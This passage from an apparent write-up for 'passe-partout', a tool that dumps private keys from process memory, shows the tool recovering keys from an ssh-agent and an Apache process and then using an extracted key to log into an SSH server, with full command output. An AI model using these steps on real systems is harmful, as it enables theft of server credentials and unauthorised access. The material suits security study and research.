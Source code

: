 


We can now save the extracted private key to /tmp/myplain.key
and clear all identities registred to ssh-agent.


```bash
$ ssh-add -D
All identities removed.
```


And finally we can authenticate with the previously extracted private
key to the SSH server. Private key (/tmp/myplain.key) permissions must
be 0600.


```bash
$ ssh -2vF /dev/null -i id_rsa-0.key -o "PreferredAuthentications publickey" 192.168.0.1
OpenSSH_4.3p2 Debian-6, OpenSSL 0.9.8e 23 Feb 2007
debug1: Reading configuration data /dev/null
debug1: Connecting to 192.168.0.1 [192.168.0.1] port 22.
debug1: Connection established.
debug1: identity file myplain.key type -1
[...]
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Trying private key: myplain.key                          <===
debug1: read PEM private key done: type RSA                      <===
debug1: Authentication succeeded (publickey).                    <===
debug1: channel 0: new [client-session]
debug1: Entering interactive session.

Last login: Wed Aug 22 17:16:00 2007 from 192.168.0.51
admin@192.168.0.1:~$
```



  "voila" :)

## Serveur HTTP Apache

Key extraction targetting an Apache HTTP server is way more verbous:

```bash
  $ ./passe-partout 29960
  Target has pid 29960
  on_signal(17 - SIGCHLD) from 29960
  [-] invalid DSA key.
  [-] invalid DSA key.
  [...]
  [-] unable to check key.
  [-] unable to check key.
  [X] Valid DSA key found.
  [X] Key saved to file id_dsa-0.key
  [-] unable to check key.
  [...]
  [X] Valid DSA key found.
  [X] Key saved to file id_dsa-26.key
  [...]
  [X] Valid RSA key found.
  [X] Key saved to file id_rsa-0.key
  [...]
  [X] Valid RSA key found.
  [X] Key saved to file id_rsa-2.key
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
```